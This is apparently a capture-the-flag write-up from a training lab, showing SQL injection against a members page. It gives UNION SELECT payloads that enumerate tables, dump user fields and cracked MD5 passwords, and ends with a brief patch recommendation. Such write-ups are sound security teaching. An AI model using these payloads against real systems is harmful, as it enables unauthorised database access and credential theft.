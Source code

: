 # B04-SQLInjection-members

## BREACH

In this case, we have to exploit the page:

>`http://192.168.56.106/?page=member`

First we try a basic `ISQL` for list all tables,

>`0 UNION SELECT table_name, table_schema FROM information_schema.tables`

We have may lines in output but one is interesting:

![image](https://github.com/Seriots/Darkly/assets/94530285/88f32ef3-d05a-4b4c-bd67-1d3a8cf5115b)

We can see a table names users so, try to `list columns` about this `table`,

>`1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema=database()`


![image](https://github.com/Seriots/Darkly/assets/94530285/9849d823-ef56-4438-9152-f8ba0faf88dc)

After dig into all columns we find two are interesting:  `Commentaire` and `countersign`,

>`1 OR 1 UNION SELECT Commentaire,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/8e2492c1-b08b-41e5-808c-ba4efe4caf35)

And for countersign:

>`1 OR 1 UNION SELECT countersign,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/4b08918e-db5b-4f59-82da-7ae72c9313fe)

We fin these encrypt text are in md5 so lets decode.

>2b3366bcfd44f540e630d4dc2b9b06d9 : YesWeCan

>60e9032c586fb422e2c16dee6286cf10 : oktoberfest

>e083b24a01c483437bcf4a9eea7c1b4d : This one can't be decrypt.

>5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

The precedent 'Commentaire' was for the last user so we have ton encrypt `fortytwo` in `sha256`

>This is ou flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## PATCH

For patch this one we have to `improve` the `sanitization/validation` of input provide by an user,

to `block sql injection`.

`Stop` writing `dynamic queries` with string concatenation or

Prevent malicious SQL input from being included in executed queries.
